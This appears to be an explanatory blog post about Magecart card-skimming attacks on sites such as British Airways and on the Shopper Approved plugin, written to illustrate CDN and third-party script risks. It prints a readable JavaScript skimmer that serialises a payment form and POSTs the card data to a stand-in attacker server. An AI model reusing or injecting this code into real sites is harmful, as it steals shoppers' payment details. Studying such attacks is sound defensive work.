





In the last month a group of hackers called Magecart came back striking in full force.

The attacks they architected have caused massive damages to companies like British Airways, Ticketmaster and even Newegg.

This group is specialised in card skimming from payments forms on the internet.

## How?



Their attacks are all based on injecting malicious javascript into websites.

The main attack vector are hacked CDNs and third party plugins on websites.

The js inserted in websites usually is pretty straightforward: on form submission, it sends a POST request with all the sensitive information to an external server that is set up to receive it.



The code in the British Airways attack was the following:



Here's a more readable version of it:
```javascript
    window.onload = function() {
        // Triggering the function when users submit payment details
        jQuery(".btn-success").bind ("mouseup touchend", function(t) {
            var e={};
            // Copying the data inside of the payment form
            jQuery("#payment-form").serializeArray().map(function(t){
                e[t.name] = t.value});
            // Creating a JSON with the credit card data    
            var n=JSON.stringify(e);
            setTimeout(function() {
                    jQuery.ajax({
                        // POST request to Magecart controlled server
                        type:"POST",
                        async:!0,
                        // Malicious Server controlled by Magecart
                        url:"https://malicious-service.com/carding-api/",
                        data:n,
                        dataType:"application/json"})},
                500)})};

```


## CDN Security

These attacks usually are aimed towards large corporations that are attacked, either directly, or in indirect ways.

An example of indirect attack that happened this September, when the group targeted Shopper Approved, a plugin for customer rating.

In this case the attack targeted a static resource that was used by multiple websites.

Researchers at [RiskIQ](https://www.riskiq.com) found obfuscated javascript code included in the `certificate.js` file.

Original file 👇



Malicious file 👇

